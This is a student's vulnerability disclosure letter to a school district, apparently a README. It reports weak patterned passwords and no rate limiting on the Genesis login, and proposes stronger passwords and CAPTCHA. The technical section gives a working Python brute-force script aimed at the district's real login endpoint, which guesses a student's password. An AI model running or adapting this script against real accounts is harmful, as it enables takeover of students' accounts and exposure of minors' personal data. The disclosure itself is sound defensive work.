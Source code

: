 ## 🧠 Intro
I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly. This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password a large amount of personal information is at risk.

## ❓ Why this is a problem
How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of students personal information is accessible. This includes the following (in no particular order)
- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devises signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account. I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it). Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit / modify / send information / emails as someone else.

## ✨ Fixes
Now that this problem is known, I wouldn't be very helpful if I didn't suggest some fixes! So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts. Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number. This means that for many student passwords only four digits need to be cracked. This is bad because it lowers the time to crack passwords. I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes. This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at certain grade (I would say 6th grade) students could learn how to then make their own secure passwords. Secure passwords have 10 characters made up of letters, numbers and special characters. These passwords should not be able to be seen by teachers or other staff but could be reset if needed. This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to Genesis login system. This is something that would require working with the Genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession. For example the program mentioned above was able to make over 30 requests per second. This allows simple brute force attacks (such as this one) to work. Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA. For information on implementing reCAPTCHA in PHP (I think Genesis uses PHP for its backend) check [here](https://developers.google.com/recaptcha/old/docs/php).

### 🌠 Fixes Conclusion
There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used. Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion
Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it. At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk. I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to bettor security! As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students. I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor Slade

connorslade@bernardsboe.com

## 📅 Technical Details (If you are interested)
Here I will be going over some of the specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164). This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends POST requests to `https://parents.genesisedu.com/bernardsboe/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack (ex: connorslade@bernardsboe.com). I found these details by looking at the sites network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account. Code comments are included to help show what each line does.

```python
import requests # Import needed module

url = 'https://parents.genesisedu.com/bernardsboe/sis/j_security_check' # define api uri
email = '' # Put student Email here (ex: example@bernardsboe.com)
print(f'[*] Starting Crack for {email}') # Print email to crack

for i in range(9999): # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}' # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]') # print what password is being tried
    try:
        ses = requests.Session()
        ses.max_redirects = 2
        # put the username and password into a object ready to be send to the api
        dataToSend = {"j_password": toTry, "j_username": email}
        # Send data to Genesis api as if you clicked login on the login form
        data = ses.post(url, timeout=0.5, data=dataToSend)
        # try the next possible password if server timeouts or has too many redirects
    except (requests.exceptions.TooManyRedirects, requests.exceptions.Timeout):
        continue
    if data.status_code != 200:
        continue
    print(f'\n[*] Complete: {toTry}') # if passwords is correct print it
    break # Exit the loop when the password has been found
```
Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however it does a good job showing what is going on without optimizations. To speed this up multi threading can be used to attempt more passwords in the same amount of time.